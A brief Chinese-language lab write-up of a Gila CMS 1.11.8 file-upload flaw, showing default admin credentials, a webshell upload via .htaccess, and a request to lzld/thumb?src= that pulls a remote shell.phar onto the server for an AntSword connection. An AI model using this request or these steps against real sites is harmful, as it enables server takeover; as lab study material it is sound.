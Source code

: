 ## 1. 漏洞介绍

Gila CMS是一套基于PHP和MySQL的开源内容管理系统（CMS）。 Gila CMS 1.11.8版本中存在代码问题漏洞，该漏洞源于程序没有正确验证文件扩展名。远程攻击者可借助特制HTTP请求利用该漏洞上传恶意文件。

Gila CMS 1.11.8 lzld/thumb?src= URI处可上传恶意文件.phar .phtml

[GilaCMS 1.11.8 – Remote Code Execution](https://infosecdb.wordpress.com/2020/01/05/gilacms-1-11-8-remote-code-execution/)

## 2. 漏洞复现

登录 `admin@admin.com/admin` 

登录后发现后台面板有文件管理功能，直接修改 .htaccess，上传 php 木马……

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312181239281.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312181239528.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312181239195.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312181239864.png)

前面这是一个漏洞，但不是该靶标的本意，接着按靶标介绍的漏洞来，直接参考 [GilaCMS 1.11.8 – Remote Code Execution](https://infosecdb.wordpress.com/2020/01/05/gilacms-1-11-8-remote-code-execution/) 即可

http://eci-………………deci1.ichunqiu.com/lzld/thumb?src=http://…………/shell.phar&media_thumb=80

shell.phar 就会下载到 tmp/media_thumb 下，用蚁剑连接即可，操作略……
